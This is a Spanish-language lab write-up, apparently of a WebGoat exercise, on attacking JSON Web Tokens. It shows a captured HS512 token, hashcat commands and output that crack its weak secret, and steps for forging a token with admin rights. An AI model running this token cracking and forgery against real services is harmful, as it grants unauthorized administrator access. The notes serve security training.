 # JWT tokens

JsonWebTokens 

**********************************************************************

# Proceso
Capturamos la petición

# 1) Capturamos el access token con ayuda de burp
## Access token
```
eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1OTQ1MjI5NzEsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiU3lsdmVzdGVyIn0.cmya1cEk7cRqfMLN5RT0yMDOxQu1bsRvdnZE00hsAfxDp4smEsCNZp5_ncymxyu0n6Hch8lYdGQ3SiawIRNqwQ
```

Dado el RFC de JWT sabemos que el token se compone de 3 partes y está separado por `.`

## Access token explain
```
Header:
	eyJhbGciOiJIUzUxMiJ9
Claim: 
	eyJpYXQiOjE1OTQ1MjI5NzEsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiU3lsdmVzdGVyIn0
Signature:
	cmya1cEk7cRqfMLN5RT0yMDOxQu1bsRvdnZE00hsAfxDp4smEsCNZp5_ncymxyu0n6Hch8lYdGQ3SiawIRNqwQ
```

## Access token decoded
```
Header:
	{"alg":"HS512"}
Claim: 
	{"iat":1594522971,"admin":"false","user":"Sylvester"}
Signature:
	?
```

***************************************************************

# 2) Crackeamos el access token para encontrar el "secret" con el que se cifro

Con Ayuda de hashcat trataremos de encontrar el `secret` mediante un ataque de diccionario

1. Creamos un archivo token.txt con nuestro token
2. Usamos el diccionario proporcionado por [first20hours](https://github.com/first20hours/google-10000-english/blob/master/google-10000-english.txt)
3. Usamos la herramienta hashcat

La sintaxis de la herramienta es la siguiente:
```bash
# Using a Wordlist:  
hashcat -a0 -m 16500 text.hash [dict]

# Pure Brute force attack:  
hashcat -a3 -m 16500 text.hash
```

Para nuestro caso sería:
```bash
# Using a Wordlist:  
hashcat -a0 -m 16500 token.txt google-10000-english.txt
```

Lo que nos dará el siguiente output
```
Dictionary cache built:
* Filename..: google-10000-english.txt
* Passwords.: 10000
* Bytes.....: 75888
* Keyspace..: 10000
* Runtime...: 0 secs

eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1OTQ1MjI5NzEsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiU3lsdmVzdGVyIn0.cmya1cEk7cRqfMLN5RT0yMDOxQu1bsRvdnZE00hsAfxDp4smEsCNZp5_ncymxyu0n6Hch8lYdGQ3SiawIRNqwQ:victory
```

Donde podemos observar que el `secret` es `victory`

***************************************************************
# 3) Modificamos y creamos un nuevo token

Una vez que tenemos el `secret` podemos crear un nuevo token correctamente firmado.
Para esto, hacemos lo siguiente:

1. Abrimos jwt.io
2. Pegamos nuestro token original
3. Modificamos `"admin": "false"`, a `"admin": "true"`
4. Ingresamos nuestro `secret` que en este caso es `victory`
5. Copiamos el nuevo token y lo pegamos en la función `repeater` de burp

***********************************************************************

# Materiales de ayuda
+ https://gchq.github.io/CyberChef/
+ https://jwt.io/
+ https://security.stackexchange.com/questions/200918/using-hashcat-in-order-to-crack-the-jwt-signature-in-webgoat
+ https://github.com/first20hours/google-10000-english/blob/master/google-10000-english.txt